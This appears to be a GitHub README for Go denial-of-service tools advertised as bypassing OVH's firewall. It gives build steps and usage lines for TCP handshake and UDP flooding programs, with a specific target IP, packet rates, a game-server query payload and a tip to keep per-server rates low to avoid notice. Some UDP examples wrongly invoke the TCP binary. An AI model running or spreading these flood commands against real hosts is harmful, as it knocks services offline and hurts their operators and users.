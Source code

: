<h2>Golang OVH Bypasses</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>Those scripts are made to bypass OVH firewall</h4>


<h1>Installation:</h1>

```sh
apt install snap snapd -y
snap install go --classic
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```sh
go build tcp.go
go build udp.go
go build udprand.go
```

<h3>TCP Handshake usage</h3><br>

```sh
./tcp <target> <tcp-port> <packets-per-second>
./tcp 145.239.54.169 80 10000
```

<h3>UDP with TCP Handshake and random data usage</h3><br>

```sh
./udprand <target> <tcp-port> <udp-port> <packets-per-second>
./tcp 145.239.54.169 80 1194 8000
```

<h3>UDP with TCP Handshake and custom data usage</h3><br>

```sh
./udprand <target> <tcp-port> <udp-port> <packets-per-second> <udp-payload>
./tcp 145.239.54.169 80 1194 8000 ffffffff54536f7572636520456e67696e6520517565727900
```

## We recommend using a low amount of PPS per server (10000 p/s max)
